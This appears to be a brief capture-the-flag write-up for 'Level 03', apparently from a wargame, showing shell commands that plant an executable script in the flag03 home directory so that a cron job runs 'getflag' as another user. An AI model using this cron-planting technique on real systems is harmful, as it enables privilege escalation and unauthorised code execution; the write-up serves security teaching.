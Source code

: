 ### Level 03

We are going to create a malicious script which is going to be executed by ```crontab```
```
cd /home/flag03
echo "getflag > ../output.txt" > malicious_script
chmod a+x malicious_script
```